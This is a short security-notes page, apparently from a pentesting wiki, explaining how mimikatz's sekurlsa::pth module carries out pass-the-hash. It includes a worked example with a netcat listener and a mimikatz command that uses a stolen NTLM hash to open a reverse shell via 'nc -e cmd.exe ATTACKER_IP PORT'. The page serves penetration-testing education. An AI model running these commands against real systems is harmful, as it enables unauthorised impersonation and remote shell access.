 # pass-the-hash

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how `mimikatz` implements the pass-the-hash technique

I aim to provide a general high-level overview of how the `sekurlsa::pth` module works to allow an attacker to impersonate a user.&#x20;

Generally, it works by overwriting stored credential material for the current session, or spawn new processes using certain Windows APIs to associate the attacker's provided credentials for that session.&#x20;

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a shell session as the found user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform the attack:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.


